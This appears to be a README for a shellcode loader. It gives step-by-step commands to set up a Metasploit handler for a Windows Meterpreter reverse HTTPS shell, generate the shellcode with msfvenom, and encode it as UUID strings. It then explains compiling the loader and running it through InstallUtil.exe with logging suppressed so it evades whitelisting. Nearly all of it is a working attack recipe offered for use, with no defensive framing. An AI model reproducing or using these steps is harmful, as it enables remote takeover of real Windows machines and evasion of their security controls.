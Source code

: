 ```msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST eth0; set LPORT 443; exploit"```

```msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth0 LPORT=443 -f raw -o shell.bin```

```python3 payload_uuid.py -p shell.bin > shell.txt```

In notepad++ Ctrl+h in Replace tab add in Find what field ^(.*)$ and in Replace with field "\1",
Remove from the last line the comma.
<br>
<br>
![image](https://github.com/user-attachments/assets/6c6aeb08-b354-4f0a-9e07-7adb1fc12b80)
<br>
<br>
Add the final shellcode to the "Shellcode" variable.
Compile as Release .
<br>
<br>
![image](https://github.com/user-attachments/assets/6c770e2f-f0c7-4a4b-98ab-a6496ead6438)
<br>
<br>
In order to run the loader with installutil:

``` C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false .\solomon.exe```
